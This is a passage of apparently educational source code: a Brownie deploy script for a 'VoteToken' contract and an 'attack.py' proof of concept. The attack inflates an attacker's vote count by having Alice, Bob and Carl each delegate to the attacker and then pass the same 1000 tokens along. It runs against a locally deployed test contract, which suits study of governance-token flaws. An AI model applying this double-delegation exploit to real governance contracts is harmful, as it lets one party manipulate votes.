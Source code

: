 ```py
    vt = VoteToken.deploy({"from": owner})

    print(f"Contract Deployed to {vt.address}")

    # Give Alice 1000 vTokens
    vt.mint(alice.address, 1000, {"from": owner}).wait(1)

    return vt, owner, alice, bob, carl, attacker


def main():
    deploy()

```
- `attack.py`
```py
#!/usr/bin/python3
from brownie import VoteToken
from colorama import Fore
from scripts.deploy import deploy


# * colours
green = Fore.GREEN
red = Fore.RED
blue = Fore.BLUE
magenta = Fore.MAGENTA
reset = Fore.RESET


def attack():
    vToken, owner, alice, bob, carl, attacker = deploy()
    # print(vToken.balanceOf(attacker))
    # print(vToken.balanceOf(alice))

    # delegate attacker from alice
    vToken.delegate(attacker.address, {"from": alice}).wait(1)
    print(f"{green}Attacker votes: {red}{vToken.getVotes(attacker)}{reset}")

    # transfer the funds to bob so that he can vote again
    vToken.transfer(bob.address, 1000, {"from": alice}).wait(1)

    print(f"{red}Funds transferred from alice to bob{reset}")
    print(f"{green}Balance of Alice: {magenta}{vToken.balanceOf(alice)}{reset}")
    print(f"{green}Balance of Bob: {magenta}{vToken.balanceOf(bob)}{reset}")

    # same task vote for attacker from bob
    vToken.delegate(attacker.address, {"from": bob}).wait(1)
    print(f"{green}Attacker votes: {red}{vToken.getVotes(attacker)}{reset}")

    vToken.transfer(carl.address, 1000, {"from": bob}).wait(1)
    print(f"{red}Funds transferred from Bob to Carl{reset}")

    print(f"{green}Balance of Bob: {magenta}{vToken.balanceOf(bob)}{reset}")
    print(f"{green}Balance of Carl: {magenta}{vToken.balanceOf(carl)}{reset}")

    # same task vote for attacker from carl
    vToken.delegate(attacker.address, {"from": carl}).wait(1)
    print(f"{green}Attacker votes: {red}{vToken.getVotes(attacker)}{reset}")

    vToken.transfer(attacker.address, 1000, {"from": carl}).wait(1)
    print(f"{red}Funds transferred from Carl to Attacker{reset}")

```